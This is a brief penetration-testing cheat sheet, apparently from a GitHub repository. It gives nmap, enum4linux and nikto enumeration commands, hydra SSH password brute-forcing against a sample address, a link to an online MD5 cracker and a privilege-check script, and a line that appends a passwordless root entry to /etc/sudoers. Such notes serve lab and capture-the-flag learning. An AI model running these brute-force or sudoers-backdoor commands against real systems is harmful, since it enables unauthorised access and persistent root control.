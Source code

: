 ## ENUMERATION

### Find all open ports
```
nmap -sV -Pn -p- -T4 -A <IP>
```
### Password bruteforce using hydra
```
hydra -l bob -p password ssh://10.10.10.1 -t 4
hydra -L user.txt -P pass.txt ssh://10.10.10.1 -t 4
```

### linux enumeration 
```
enum4linux <IP>
```

### enumerate port 80
```
nikto -host http://<IP>
```
## ENCRYPTIONS AND DECRYPTIONS

### Online md5 cracker
```
https://www.md5online.org/md5-decrypt.html
```

## PRIVILAGE ESCALATION

### Linux

### First do some privilage checking
```
http://www.securitysift.com/download/linuxprivchecker.py
```

### if you can edit sudoers file, just add this line
```
echo 'bob ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```
